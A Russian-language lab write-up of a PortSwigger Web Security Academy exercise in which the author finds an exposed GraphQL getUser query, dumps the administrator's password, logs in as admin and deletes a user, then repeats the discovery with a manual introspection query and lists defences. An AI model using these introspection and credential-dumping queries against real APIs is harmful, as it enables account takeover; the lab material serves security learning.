



лаба https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure
#### Accidental exposure of private GraphQL fields

задание:  sign in as the administrator and delete the username `carlos`

-----

вот запрос на авторизацию
```http
POST /graphql/v1 HTTP/2
Host: 0a8b00c7031919f8826ac01b007c0017.web-security-academy.net
Cookie: session=xDgWZaldyJwajKvZN1IsblxGCuWElrHv; session=SLSWks22hKQXcLxhxJItBmlcZpG31ccX
Content-Length: 232
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Accept: application/json
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: https://0a8b00c7031919f8826ac01b007c0017.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8b00c7031919f8826ac01b007c0017.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"query":"\n    mutation login($input: LoginInput!) {\n        login(input: $input) {\n            token\n            success\n        }\n    }","operationName":"login","variables":{"input":{"username":"wiener","password":"peter"}}}


------------------------------

ответ с токеном

HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=pWHwtR2eCKSmZo6YEYQWQX2XIyGkZSXT; Secure; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 113

{
  "data": {
    "login": {
      "token": "pWHwtR2eCKSmZo6YEYQWQX2XIyGkZSXT",
      "success": true
    }
  }
}

```

-----

копирую url этого запроса - что выше
`https://0a8b00c7031919f8826ac01b007c0017.web-security-academy.net/graphql/v1`

---

поставил в бурп расширение InQl сканер

ввел url 
запустил сканер
он сразу нашел все эндпоинты нужные
среди них был  запрос
```json
query getUser {
    getUser(id: Int!) {
        id
        password
        username
    }
}
```




отправил запрос в репитер
и подобрав нужный id - нашел аккаунт админа (что кажется бредом, ну слишком просто как-то... как можно было додуматься такой запрос, который возвращает логин и пароль юзера возвращать по запросу, и этот запрос полностью открыт.. для всех желающих, такого наверно не бывает )))




выполнил запрос на андпоинт авторизации с запросом
```json
{"query":"\n    mutation login($input: LoginInput!) {\n        login(input: $input) {\n            token\n            success\n        }\n    }","operationName":"login","variables":{"input":{"username":"administrator","password":"n2vcmf6zg2czmxxonq7p"}}}
```
и успешно получил ответ true
```json
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=K8x5YSEmHdfJkmob9ra3Y3y71UJyk9mh; Secure; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 113

{
  "data": {
    "login": {
      "token": "K8x5YSEmHdfJkmob9ra3Y3y71UJyk9mh",
      "success": true
    }
  }
}
```

-----
осталось лишь выполнить вход и все
подставил токен в куку запроса GET /my-account HTTP/2 
и залогинился  админом




далее в коде стр
```html
                           <a href="/admin">Admin panel</a><p>
```
далее ручка
```html
</span>
<a href="/admin/delete?username=carlos">Delete</a>
                        </div>
```
удалил карлоса и лаба - решена!

--------
## выводы

##### почему получилось взломать  
из-за случайного раскрытия приватных полей в graphql, разработчик добавил в схему запрос getUser, который возвращает username и password любого пользователя по его id, этот запрос не предназначен для внешнего использования, но он оказался доступен в продакшене и не защищен проверкой прав,

обнаружил через сканер - но ниже выводов найду это самостоятельно

##### как защититься  

строго контролировать какие поля и запросы доступны во внешнем api 

приватные поля типа password не должны возвращаться вообще или должны быть защищены жесткой проверкой прав доступа 

отключить introspection в продакшене, чтобы злоумышленник не мог получить карту api 

внедрить проверки авторизации на уровне каждого поля особенно для запросов возвращающих чувствительные данные 

использовать принцип наименьших привилегий для api схемы 

регулярно аудитить schema на предмет утечек

------

## пробую самостоятельно найти все запросы которые есть (чтобы без сканера уметь это делать)


запрос
```json 
{"query":"{ __schema { types { name fields { name } } } }"}
```
ответ
```json 
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5156

{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "BlogPost",
          "fields": [
            {
              "name": "id"
            },
            {
              "name": "image"
            },
            {
              "name": "title"
            },
            {
              "name": "author"
            },
            {
              "name": "date"
            },
            {
              "name": "summary"
            },
            {
              "name": "paragraphs"
            }
          ]
        },
        {
          "name": "Boolean",
          "fields": null
        },
        {
          "name": "ChangeEmailInput",
          "fields": null
        },
        {
          "name": "ChangeEmailResponse",
          "fields": [
            {
              "name": "email"
            }
          ]
        },
        {
          "name": "Int",
          "fields": null
        },
        {
          "name": "LoginInput",
          "fields": null
        },
        {
          "name": "LoginResponse",
          "fields": [
            {
              "name": "token"
            },
            {
              "name": "success"
            }
          ]
        },
        {
          "name": "String",
          "fields": null
        },
        {
          "name": "Timestamp",
          "fields": null
        },
        {
          "name": "User",
          "fields": [
            {
              "name": "id"
            },
            {
              "name": "username"
            },
            {
              "name": "password"
            }
          ]
        },
        {
          "name": "__Directive",
          "fields": [
            {
              "name": "name"
            },
            {
              "name": "description"
            },
            {
              "name": "isRepeatable"
            },
            {
              "name": "locations"
            },
            {
              "name": "args"
            }
          ]
        },
        {
          "name": "__DirectiveLocation",
          "fields": null
        },
        {
          "name": "__EnumValue",
          "fields": [
            {
              "name": "name"
            },
            {
              "name": "description"
            },
            {
              "name": "isDeprecated"
            },
            {
              "name": "deprecationReason"
            }
          ]
        },
        {
          "name": "__Field",
          "fields": [
            {
              "name": "name"
            },
            {
              "name": "description"
            },
            {
              "name": "args"
            },
            {
              "name": "type"
            },
            {
              "name": "isDeprecated"
            },
            {
              "name": "deprecationReason"
            }
          ]
        },
        {
          "name": "__InputValue",
          "fields": [
            {
              "name": "name"
            },
            {
              "name": "description"
            },
            {
              "name": "type"
            },
            {
              "name": "defaultValue"
            },
            {
              "name": "isDeprecated"
            },
            {
              "name": "deprecationReason"
            }
          ]
        },
        {
          "name": "__Schema",
          "fields": [
            {
              "name": "description"
            },
            {
              "name": "types"
            },
            {
              "name": "queryType"
            },
            {
              "name": "mutationType"
            },
            {
              "name": "directives"
            },
            {
              "name": "subscriptionType"
            }
          ]
        },
        {
          "name": "__Type",
          "fields": [
            {
              "name": "kind"
            },
            {
              "name": "name"
            },
            {
              "name": "description"
            },
            {
              "name": "fields"
            },
            {
              "name": "interfaces"
            },
            {
              "name": "possibleTypes"
            },
            {
              "name": "enumValues"
            },
            {
              "name": "inputFields"
            },
            {
              "name": "ofType"
            },
            {
              "name": "specifiedByURL"
            }
          ]
        },
        {
          "name": "__TypeKind",
          "fields": null
        },
        {
          "name": "mutation",
          "fields": [
            {
              "name": "login"
            },
            {
              "name": "changeEmail"
            }
          ]
        },
        {
          "name": "query",
          "fields": [
            {
              "name": "getBlogPost"
            },
            {
              "name": "getAllBlogPosts"
            },
            {
              "name": "getUser"
            }
          ]
        }
      ]
    }
  }
}
```
----------
------------
------

вот собственно - все что и нужно было узнать
вся инфа есть
```json
{
          "name": "query",
          "fields": [
            {
              "name": "getBlogPost"
            },
            {
              "name": "getAllBlogPosts"
            },
            {
              "name": "getUser"
				}
}
            
            а также
            
{
          "name": "User",
          "fields": [
            {
              "name": "id"
            },
            {
              "name": "username"
            },
            {
              "name": "password"
            }
          ]
}
```

и можно сформировать запрос
```json
{
    "query": "query HACKhackHACK($id: Int!) 
    {\n  getUser(id: $id) 
    {\nid\n  username\n  password\n  }\n}",
    "variables": {"id": 1}
}

HACKhackHACK - так как название операции может быть любое
-------

ответ

{
  "data": {
    "getUser": {
      "id": 1,
      "username": "administrator",
      "password": "n2vcmf6zg2czmxxonq7p"
    }
  }
}
```
